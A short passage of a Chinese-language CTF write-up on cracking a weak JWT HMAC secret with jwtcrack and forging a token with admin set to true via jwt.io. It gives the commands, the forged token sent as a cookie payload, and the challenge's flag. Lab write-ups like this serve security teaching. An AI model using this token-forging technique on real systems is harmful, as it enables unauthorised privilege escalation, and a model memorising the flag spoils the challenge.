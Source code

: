 进入工作目录，使用命令：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOmZhbHNlLCJkYXRhIjp7InVzZXJuYW1lIjoiem9tYm8iLCJwYXNzd29yZCI6InpvbWJvIn19LCJpYXQiOjE3MTMyNTg2NTYsImV4cCI6MTcxMzI2MjI1Nn0.hDUeoGGbIUGuStfgJh5GpbPaEnlkpUIoEsaw1tTL13s
```
得到secret
![alt text](image-12.png)
进入JWT.io网站 https://jwt.io/
伪造新token，将admin修改为true，同时填入secret为123，得到新token![alt text](image-13.png)![alt text](image-14.png)
新token
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOnRydWUsImRhdGEiOnsidXNlcm5hbWUiOiJ6b21ibyIsInBhc3N3b3JkIjoiem9tYm8ifX0sImlhdCI6MTcxMzI1ODY1NiwiZXhwIjoxNzEzMjYyMjU2fQ.ZLVfnbBoLmS2ikhSemUvRrq5E3hVccH_pdKqy5vpdVA
```
构造payload：
Cookie:token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOnsiYWRtaW4iOnRydWUsImRhdGEiOnsidXNlcm5hbWUiOiJ6b21ibyIsInBhc3N3b3JkIjoiem9tYm8ifX0sImlhdCI6MTcxMzI1ODY1NiwiZXhwIjoxNzEzMjYyMjU2fQ.ZLVfnbBoLmS2ikhSemUvRrq5E3hVccH_pdKqy5vpdVA
在返回的代码中发现flag：shellmates{w34k_JwT_$3CR3T}